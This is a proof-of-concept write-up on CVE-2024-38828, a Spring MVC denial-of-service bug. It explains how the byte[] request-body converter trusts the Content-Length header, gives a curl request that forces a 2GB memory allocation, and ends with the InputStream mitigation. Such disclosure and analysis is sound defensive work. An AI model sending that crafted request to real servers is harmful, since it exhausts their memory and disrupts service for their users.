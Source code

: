 ```yaml
---
title: CVE-2024-38828 POC
author: rafonsecad
date: 2025-05-19
categories: [PoC]
tags: [spring boot, java]
---
```


## Introduction

This is a poc for the security issue found in spring last year. It's really simple and fun to research. Quoting the official description of the [bug](https://spring.io/security/cve-2024-38828):

> Spring MVC controller methods with an @RequestBody byte[] method parameter are vulnerable to a DoS attack.

## Analysis

The affected spring framework version is 5.3.x, this version corresponds a spring boot version [2.7](https://github.com/spring-projects/spring-boot/releases/tag/v2.7.18). Let's start by creating a spring boot app (version 2.7.18) with the following endpoint

```java
@RestController
public class DemoController {

    @PostMapping("/api/file")
    ResponseEntity<Void> endpoint(@RequestBody byte[] file) {
        System.out.println(new String(file));
        return ResponseEntity.ok().build();
    }
}
```

then let's remember how Message converters work. In spring framework, a message converter tries to cast the http raw body to the requested type, in this case since we want to represent the body as a `byte[]`, the corresponding message converter is ByteArrayHttpMessageConverter

```java
@Override
public byte[] readInternal(Class<? extends byte[]> clazz, HttpInputMessage inputMessage) 
     throws IOException {
	long contentLength = inputMessage.getHeaders().getContentLength();
	ByteArrayOutputStream bos =
			new ByteArrayOutputStream(contentLength >= 0 ? (int) contentLength : 
                                                                   StreamUtils.BUFFER_SIZE); //4096
	StreamUtils.copy(inputMessage.getBody(), bos);
	return bos.toByteArray();
}
```

Here we can spot the bug. To recognize it, let's take a quick look at the [ByteArrayOutputStream](https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/io/ByteArrayOutputStream.html#%3Cinit%3E(int)) documentation

> `public ByteArrayOutputStream (int size)`
>
> Creates a new ByteArrayOutputStream, with a buffer capacity of the specified size, in bytes.

so inside the method `readInternal` the variable `bos` is created with a buffer capacity defined by `Content-Length`, which is a header that the user (or an attacker) can modify.

## Exploitation

By crafting a request with a huge `Content-Length` will make the app to waste memory that otherwise could be used for other operations and it could ultimately cause a denial of service. A simple request like below can force the app to reserve 2GB of memory.

```bash
curl -X POST http://localhost:8080/api/file -d 'lol' -H "Content-Type: application/json" \
     -H "Content-Length: 2000000000"
```

ByteArrayOutputStream accepts an `int` as argument, so the maximum theorical value is `2,147,483,647`, but in reality, creating such buffer depends on the heap space configured for the JVM. If the heap space is not enough, the JVM will throw an `OutOfMemoryError` Exception and the request will be rejected.

After the payload is sent and the JVM reserved the memory successfully, the application waits for more information since it's expecting the body length to match what `Content-Length` says. If no more information is sent then the application will trigger a `SocketTimeOutException`, by default such timeout is 1 minute in **Tomcat**, 30 seconds in **jetty**, and **undertow** doesn't have a timeout configured.

In the tests I made, setting `Content-Type` as `application/x-www-form-urlencoded` will make **Tomcat** libraries to parse the body parameters and it will get stuck until `SocketTimeOutException` triggers without going trough `ByteArrayHttpMessageConverter`, that's why I set `Content-Type` as `application/json` and worked in all three application servers. Others content types might work as well.

## Affected versions

The official report says that besides spring framework version 5.3, older and unsupported version might be affected. The last [commit](https://github.com/spring-projects/spring-framework/commit/dd7f54c3c06ba4da673634d9dc3c456fb343cb67#diff-f25645369b46deba08338d6a57b8fd59c749d7766d66b8fc6d58bda2e9b1aa31) that touched this part of the code dates back from March 2014 but the bug seems to be already there. So it's possible this vulnerability has been present way before version 4.x

## Mitigation

The official report recommends changing the parameter type from `byte[]` to `InputStream` if a spring framework update is not possible. To make this work, be aware that using `InputStream` as a [parameter](https://github.com/spring-projects/spring-framework/issues/14119) doesn't need `@RequestBody` annotation, after that change our initial endpoint would look like this

```java
@RestController
public class DemoController {

    @PostMapping("/api/file")
    ResponseEntity<Void> endpoint(InputStream file) throws Exception {
        System.out.println(new String(file.readAllBytes()));
        return ResponseEntity.ok().build();
    }
}
```

